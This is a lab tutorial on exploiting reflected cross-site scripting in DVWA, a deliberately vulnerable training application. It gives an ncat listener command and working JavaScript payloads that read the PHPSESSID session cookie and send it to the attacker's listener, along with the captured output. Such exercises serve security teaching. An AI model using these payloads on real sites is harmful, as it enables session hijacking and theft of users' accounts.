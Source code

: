 # Tutorial 7: Client-Side Web Vulnerabilities (Part 1)

## Cross-site scripting vulnerabilities in DVWA
Our goal is to exploit the vulnerbilities in the **XSS (Reflected and Stored)** categories on `dvwa`. I will first go through the **Reflected** category, then the **Stored**. To test this vulneratility, a "fake" web server was instantiated on port 8000 using the following command:
```
ncat -lkc "perl -e 'while (defined(\$x = <>)){ print STDERR \$x; last if \$x eq qq#\\r\\n
# } print qq#HTTP/1.1 204 No Content\\r\\n#'" 8000
```

*Security Level: low*

Looking at the source code, we can see that there is no filtering of the user input:
```php
echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
```
This means that a basic XXS attack should work. If we enter `<script src=http://10.6.66.42:8000></script>` instead of a name, we can see a response appear in the terminal of our "fake"  web server:
```
GET / HTTP/1.1
Host: 10.6.66.64:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://10.6.66.42/
```
Now that we've established communication to our web server, the next step is figuring out how to attach the session cookie to the http request. Unfortunately this isn't possible using our previous approach. In order to exfiltrate data, we need to make an `XMLHttpRequest`, which we can then add information to:
```html
<script>
  var msg = new XMLHttpRequest();
  var url = "http://10.6.66.64:8000";
  var params = "?test=test";
  msg.open("GET", url+params, async=false);
  msg.send();
</script>
```
Sending this script leads to the same response as the previous one, but with `GET /?test=test HTTP/1.1` as part of the first line. This now gives us the tool to exfiltrate data. Note that sending this request will cause the dvwa webpage to freeze up (presumably because we send an asynchronous request). Now that we can attach data, we need to get the session cookie. Cookies can be accessed in javascript with `document.cookie`. We could just send this entire string back as part of our query string, but finding the specific cookie we are looking for is a git more elegant. We can define the following javascript funciton to do this:
```javascript
function getCookie(name) {
  const value = `; ${document.cookie}`; // Pre-pends a ; to our string so that all cookies match the same pattern "; {name}={value}"
  const parts = value.split(`; ${name}=`); // Splits the string in 2 if we find our target cookie name, with the target value in the second part of the string
  if (parts.length === 2) return parts.pop().split(';').shift(); //Take the second element of the array (contains our target value), now split on ';' and take the first element (our target value)
}
```
Combining all of this together, we can send the following payload:
```html
<script>
    var msg = new XMLHttpRequest();
    var url = "http://10.6.66.64:8000";
    function getCookie(name) {
      const value = `; ${document.cookie}`;
      const parts = value.split(`; ${name}=`);
      if (parts.length === 2) return parts.pop().split(';').shift();
    }
    msg.open("GET", url+"?PHPSESSID="+getCookie("PHPSESSID"), async=false);
    msg.send();
</script>
```
We receive this in our web server as `GET /?PHPSESSID=c0qlht8eff4bsj7iqo3a0so092 HTTP/1.1`. If a user now visits the url which sets name to this payload, their session cookie would be leaked. If we check in the browser storage, we can see that the cookie we received matches the stored value of `PHPSESSID`.
